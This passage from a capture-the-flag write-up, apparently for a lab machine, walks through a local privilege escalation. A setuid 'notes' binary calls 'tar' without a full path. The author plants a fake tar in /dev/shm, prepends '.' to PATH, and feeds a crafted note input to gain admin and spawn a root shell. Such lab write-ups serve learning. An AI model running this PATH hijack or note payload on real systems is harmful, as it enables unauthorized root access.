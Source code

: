 And if I enter `8`, it says “Access granted!” before erroring out:

```
Your choice: 8

Access granted!
tar: Removing leading `/' from member names
/opt/notes/

```

`/opt/notes/` is empty.

### Exploit tar

#### Identify tar Command

The error seems to have an issue with `tar`. I’ll run `strings` on the binary to see if the command is in there, and it is:

```
tbuckley@gofer:~$ strings /usr/local/bin/notes | grep 'tar '
tar -czvf /root/backups/backup_notes.tar.gz /opt/notes

```

#### Path Hijack

The good news for me is that it is calling `tar` without a full path, which means I can likely hijack `tar`.

I’ll go into `/dev/shm` and create my own `tar` file:

This literally just drops into an interactive Bash shell. I’ll make sure to make `tar` executable.

I’ll update my `$PATH` variable for my current session:

```
tbuckley@gofer:/dev/shm$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
tbuckley@gofer:/dev/shm$ export PATH=.:$PATH
tbuckley@gofer:/dev/shm$ echo $PATH
.:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

```

Now the current directory is the first item in the path.

From here, it’s just running the following steps:

1. Start `notes`
2. Option 1 to create a user.
3. Option 3 to delete the user.
4. Option 4 with a note of “Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin” to set myself admin.
5. Optionally I can verify that worked with option 2.
6. Option 8 to run `tar`.

It works:
